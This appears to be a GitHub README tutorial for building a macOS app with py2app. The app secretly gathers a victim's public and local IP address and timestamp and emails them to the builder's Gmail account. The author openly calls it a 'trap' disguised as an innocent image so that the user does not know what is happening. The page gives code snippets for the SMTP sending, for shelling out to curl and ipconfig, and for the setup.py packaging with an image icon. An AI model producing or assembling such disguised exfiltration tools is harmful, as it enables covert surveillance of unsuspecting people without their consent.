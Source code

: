 # <p id="UP">Do you want to create an app without interface for mac?</p>

> The idea of this application will be banal and at the same time interesting. We will receive the IP address of the device and send it to the gmail. In order for our client not to know about what is happening, I propose to hide our trap under the guise of an image taken from the Internet.

## <p align="center">Give thanks : 5168 7450 1701 5535 <a href="https://en.privatbank.ua/all-ways-to-receive-send-an-international-transfer"><img src="https://upload.wikimedia.org/wikipedia/uk/f/ff/%D0%9B%D0%BE%D0%B3%D0%BE%D1%82%D0%B8%D0%BF_%D0%9F%D1%80%D0%B8%D0%B2%D0%B0%D1%8224.png" width = "25" alt="Privat Bank UA"> </a></p>

### let's start parsing the code, which I added to a separate [__sketch.ipynb__](https://github.com/syroiezhin/console2app/blob/main/sketch.ipynb) file for your convenience.

- [X] First of all, let's start with the picture.
1. We can take it directly from the internet.
```python
from PIL import Image
from requests import get
Image.open(get("https://static.ngs.ru/news/2015/99/preview/6f3e934e7e2d0402bdf8113262ea14420b7da035_640.jpg", stream=True).raw).show()
```
2. We don't have to upload it to the app file, this is at your discretion, but we will set the icon for the application with the same image, so:
```python
from PIL import Image
Image.open("image.jpeg").show()
```
- [X] There are various packages for sending emails, but they all use __smtplib__.
```python
server = SMTP(smtp, 587)
server.starttls()
server.login(sender, application_passwords)
msg = MIMEText(mail,"html")
msg["Subject"] = subject
msg['From'] = sender
msg['To'] = destination
server.sendmail(sender, destination, msg.as_string())
```
> Be sure to create your password for your sender mail using [the link provided](https://myaccount.google.com/security#:~:text=chevron_right-,%D0%9F%D0%B0%D1%80%D0%BE%D0%BB%D1%8C%20%D0%B8%D0%B7%D0%BC%D0%B5%D0%BD%D0%B5%D0%BD,-24%20%D0%B8%D1%8E%D0%BB.%20%C2%B7%20%D0%A3%D0%BA%D1%80%D0%B0%D0%B8%D0%BD%D0%B0).
- [X] For orientation in letters, I suggest adding time.
1. As you know, many people use the __datetime__ library to get time data from a computer.
```python
from datetime import datetime
print( datetime.now().strftime("%d.%m.%Y - %H:%M:%S") )
```
2. I suggest using a more convenient way without loading extra libraries into the project.
```python
from os import popen
popen('date').read()
```
- [X] We need the __os__ library to receive a response from the terminal.
1. To get global ip:
```python
popen("curl ifconfig.me").read().strip()
```
2. To get local ip:
```python
popen("ipconfig getifaddr en0").read().strip()
```
> There are other ways to get this information, but I think this is the most elegant way.

### It remains to issue a __setup__ file to get a working application:

- [X] Install:
```python
pip install py2app
```
- [X] We go to the desired directory of the program using cd: `cd Desktop/NameFolder/FolderProject`
- [X] Make sure the required py is in your directory with the command: `ls`
- [X] Create setup.py with:
```
py2applet --make-setup nameProject.py
```
- [X] Let's analyze the changes made to the setup.py file:
1. Come up with a name for the program; specify the file of our program; we will make the entire list of additional programs, if such were used; we specify the entire list of libraries that is not included in the list of the standard library; and be sure to remember the icon.
```python
from setuptools import setup

APP_NAME = "envoy"
APP = ['agent.py']
DATA_FILES = []
OPTIONS = {
    'includes': ['PIL','smtplib','email'],
    'packages': ['PIL','smtplib','email'],
    'iconfile':'image.jpeg'
}
```
2. Now we can include [a description](https://docs.python.org/3/distutils/apiref.html) of this application to make it look serious:
```python
setup(
    app=APP,
    name=APP_NAME,
    data_files=DATA_FILES,
    setup_requires=['py2app'],
    options={'py2app': OPTIONS},

    version='2022.08.04',
    description='scan ip',
    long_description="Sending ip to mail from a running device",

    author='@NEU3RON',
    license="Syroiezhin",
    author_email='v.syroiezhin@gmail.com',
    download_url="https://github.com/syroiezhin",
)
```
- [X] Сongratulations, now save the change and type the final command into the terminal of the file:
```
python3 setup.py py2app
```
- [X] In case of error "No such file or directory: ... zmq/.dylibs" you will have to reinstall first by deleting:
```
conda remove zeromq
```
- [X] ... and then install without errors getting the result after you try again (`python3 setup.py py2app`).
```
conda install zeromq
```
> 

[⇪](#UP)
